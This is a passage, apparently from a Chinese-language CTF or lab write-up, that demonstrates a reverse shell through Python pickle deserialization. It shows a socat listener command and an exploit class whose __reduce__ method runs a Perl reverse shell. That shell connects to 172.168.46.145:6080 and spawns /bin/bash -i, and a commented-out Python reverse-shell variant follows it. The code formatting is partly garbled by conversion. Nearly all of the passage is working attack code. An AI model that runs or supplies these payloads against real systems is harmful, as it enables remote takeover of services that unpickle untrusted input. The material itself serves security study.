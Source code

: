 
![](README/luffy3.png)

![](README/luffy4.png)

反弹shell
现在本地监听
```
socat tcp-listen:6080 -
```

然后执行exp

```
*import*pickle
*import*os
*import*requests
*import*base64
*import*commands

*class*exp(object):
    *def*__reduce__(self):
        s = *""" perl -e 'use Socket;$i="172.168.46.145";$p=6080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");}'"""*
*        return*(os.system, (s,))

        /# s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.168.46.45",6080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'"""/
/        # return (commands.getoutput, (s,))/

e = exp()
s = pickle.dumps(e)
```